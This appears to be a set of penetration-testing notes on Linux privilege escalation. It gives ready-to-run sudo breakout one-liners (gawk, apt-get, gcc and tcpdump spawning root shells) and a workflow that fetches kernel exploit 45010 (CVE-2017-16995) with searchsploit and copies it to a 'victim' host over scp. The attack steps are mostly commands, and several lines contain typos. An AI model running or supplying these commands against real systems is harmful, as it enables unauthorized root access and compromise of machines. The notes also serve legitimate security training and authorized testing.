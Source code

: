## Abusing Sudo

* requires Sudo privileges
* verify the AppAmor kernel module is not loaded for the binary `aa-status`
* binaries from `https:gtfobins.github.com` that allow sudo breakouts to shell

```bash
# list command to cass as root
sudo -l
 (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get

# verify the AppAmor kernel module is not loaded for the abusable binary 
aa-status

# abuse bash
sudo bash -i

# abuse gawk
gawk 'BEGIN {system("/bin/sh")}'

# abuse apt get
sudo apt-get changelog apt
!/bin/sh

# abuse gcc
sudo gcc -wrapper /bin/bash,-s .

# abuse tcpdump
COMMAND='id';TF=$(mktemp); echo "$COMMAND" > $TF; chmod +x $TF;
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root

```

## Exploit Kernel Vulnerabilities

Attacker

```bash
cat /etc/issue
uname -r
arch

# search for exploit
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
searchsploit -m 45010
 Verified: True

# copy to victim
head 45010.c -n 20
mv 45010.c cve-2017-16995.c
scp cve-2017-16995.c joe@192.168.123.216:
```
